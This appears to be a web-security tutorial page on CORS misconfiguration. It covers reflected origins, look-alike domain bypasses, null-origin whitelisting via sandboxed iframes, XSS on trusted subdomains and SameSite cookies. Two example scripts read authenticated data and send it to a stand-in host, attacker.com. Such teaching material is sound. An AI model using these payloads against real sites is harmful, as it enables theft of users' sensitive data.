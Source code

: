 ```yaml
---
title: "CORS Misconfiguration"
weight: 7
description: "Learn how misconfigured CORS policies can expose sensitive data through origin reflection, null origin whitelisting, and XSS on trusted subdomains."
---
```


# CORS Misconfiguration

**Impact**: If a web response includes sensitive data (like an API key or CSRF token), and CORS is misconfigured, an attacker could steal that data using a malicious website.

---

## What is CORS?

CORS (Cross-Origin Resource Sharing) is a browser security feature that controls how web applications interact with resources hosted on different origins. It's designed to prevent malicious websites from making unauthorized requests to other sites on behalf of the user.

{{< hint style=notes >}}
**Note**: An "origin" in CORS includes the protocol, domain, and port. So `https://example.com` and `http://example.com` are considered different origins
\[[🔗](https://developer.mozilla.org/en-US/docs/Glossary/Origin)].
{{< /hint >}}

---

## Origin Reflection in ACAO Header

Some vulnerable servers reflect the `Origin` header in the `Access-Control-Allow-Origin` response without validating it.

**How to Detect**

Send a request with a custom `Origin` header (e.g., `Origin: https://evil.com`) and check if the same origin is reflected back.

```http
Access-Control-Allow-Origin: https://evil.com
```

{{< hint style=warning >}}
**Warning**: If `Access-Control-Allow-Credentials: true` is also present, an attacker can send authenticated requests from a malicious origin.
{{< /hint >}}

**Exploitation Example**

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>
```

---

## Bypassing Origin Checks with Similar Domains

Some applications whitelist trusted origins without strict validation, making it possible to bypass checks using similar-looking domains.

**Examples**:

- `hackersnormal-website.com`
- `normal-website.com.attacker.com`

{{< hint style=notes >}}
**Note**: You need to know or guess the whitelisted origins to attempt this.
{{< /hint >}}

---

## Whitelisted `null` Origin

If the server allows `null` as an origin, it may be vulnerable to data theft through sandboxed iframes.

**How to Detect**

Send a request with:

```http
Origin: null
```

and check for:

```http
Access-Control-Allow-Origin: null
```

**Exploitation Example**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>"></iframe>
```

---

## Using XSS on a Trusted Subdomain to Exploit CORS

If a site allows CORS requests only from a trusted subdomain and you find an XSS vulnerability on that subdomain, you can use the XSS to steal data via CORS.

**Example Response:**

```http
Access-Control-Allow-Origin: https://sub.vulnerable.com
Access-Control-Allow-Credentials: true
```

**Exploitation Flow:**

1. Find XSS on `https://sub.vulnerable.com`.
2. Inject malicious script that performs a CORS request to the main domain.
3. Steal the sensitive response.

URL:
```md
https://sub.vulnerable.com/?xss=<script>...your-code...</script>
```


---

## The Role of SameSite Cookies

CORS exploits often rely on the browser sending cookies along with cross-origin requests. This depends on the `SameSite` attribute of the cookie.
To exploit CORS with `withCredentials=true`, the session cookie must be accessible (i.e., not blocked by `SameSite=Strict`).